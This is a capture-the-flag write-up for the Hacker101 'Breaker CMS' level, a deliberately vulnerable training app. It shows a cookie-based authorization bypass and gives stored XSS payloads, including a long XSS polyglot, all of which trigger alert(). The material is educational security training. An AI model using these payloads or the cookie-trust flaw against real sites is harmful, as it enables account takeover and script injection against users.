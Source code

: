 # Level 3: Breaker CMS

```
		In this level, there are 6 vulnerabilities, falling into the following classes:
		Various XSS
		Improper Authorization
		Unrelated Bonuses

		Have fun!
		
   ```
    
    
 

## Improper Authorization:       
Look at script at bottom of page source:    

```// We should only display the edit link to authenticated admins.
			// http://i.imgur.com/WPaknth.jpg
			var page = window.location.hash.substring(1);
			if(page == '')
				page = 'index';
			var cookies = document.cookie.split(';');
			for(var i in cookies) {
				var cookie = cookies[i].replace(/ /g, '').split('=');
				if(cookie[0] == 'admin' && cookie[1] == '1')
					document.write('<a href="/levels/3/admin?page=' + page + '">Edit this page</a>');
			}
```    
      
      
  
 Go to cookies and change value for admin cookie from 0 to 1:       
 ![Cookie interface in Firefox Quantum](https://github.com/Isopach/Hacker101/blob/master/img/level3_improper_auth1.png)

----

## Stored XSS (Body)

Enter payload into body and POST     
`"<svg onload=alert(1)>`

![Stored XSS in Body](https://github.com/Isopach/Hacker101/blob/master/img/level3_stored_xss_body.png)


## Self XSS (Head)

Enter payload into title:     
`jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e`   

![Self XSS in Head](https://github.com/Isopach/Hacker101/blob/master/img/level3_self_xss_head.png)
